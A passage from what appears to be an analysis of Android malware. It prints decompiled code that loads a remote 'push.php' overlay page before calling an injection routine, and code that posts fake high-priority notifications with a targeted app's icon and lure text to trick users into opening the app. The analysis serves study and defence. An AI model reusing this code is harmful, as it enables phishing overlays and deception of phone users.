 ```cs
        webView0.setWebViewClient(new WebViewClient());
        webView0.loadUrl(this.store.get(this, "URL") + "push.php?pkg=" + this.pkg);
        ((LinearLayout)this.dialog.findViewById(0x7F020003)).setOnClickListener((/* MISSING LAMBDA PARAMETER */) -> {
            if(ActivityWebViewPush.this.dialog.isShowing()) {
                ActivityWebViewPush.this.dialog.dismiss();
            }

            ActivityWebViewPush.this.Tools.startInj(ActivityWebViewPush.this, ActivityWebViewPush.this.pkg);
            ActivityWebViewPush.this.finishAndRemoveTask();
        });
        this.dialog.setCanceledOnTouchOutside(true);
        this.dialog.show();
        Utils.playNotification(this, 1, false);

        class com.truly.suggest.ActivityWebViewPush.1 implements View.OnClickListener {
            @Override  // android.view.View$OnClickListener
            public void onClick(View view0) {
                ActivityWebViewPush.this.close(ActivityWebViewPush.this.dialog);
            }
        }

    }
```

But what if the user didn't opened any targeted apps? Here is the trick, The malware can push a fake notification contains some text for example ` there's something wrong in your account and you need to check` something to lure the user and the icon of a targeted app so that the user opens the target app. This way the malware makes sure that the user will open the app.

```cs
 protected void onHandleIntent(Intent intent0) {
        try {
            int v = (int)System.currentTimeMillis();
            NotificationManager notificationManager0 = (NotificationManager)this.getSystemService("notification");
            String s = intent0.getStringExtra("title");
            String s1 = intent0.getStringExtra("content");
            String s2 = intent0.getStringExtra("googleIcon");
            int v1 = s2 == null || (s2.equals("true")) ? 0x7F010001 : 0x7F010000;
            this.Tools.Log(this, "Showing notification, Title: " + s + ", Text: " + s1, Boolean.valueOf(true));
            String s3 = "ch_" + v;
            if(Build.VERSION.SDK_INT >= 26) {
                NotificationChannel notificationChannel0 = new NotificationChannel(s3, s3, 4);
                notificationChannel0.setDescription("channel-description");
                notificationChannel0.enableLights(true);
                notificationChannel0.setLockscreenVisibility(1);
                notificationChannel0.enableVibration(true);
                notificationChannel0.setVibrationPattern(new long[]{100L, 200L, 300L, 400L, 500L, 400L, 300L, 200L, 400L});
                notificationChannel0.setBypassDnd(true);
                notificationChannel0.setShowBadge(true);
                if(notificationManager0 != null) {
                    notificationManager0.createNotificationChannel(notificationChannel0);
                }

                Notification.Builder notification$Builder0 = new Notification.Builder(this, s3).setSmallIcon(v1).setAutoCancel(true).setBadgeIconType(v1).setLargeIcon(BitmapFactory.decodeResource(this.getResources(), v1)).setContentTitle(s).setChannelId(s3).setContentText(s1);
                if(notificationManager0 != null) {
                    notificationManager0.notify(v, notification$Builder0.build());
                }
```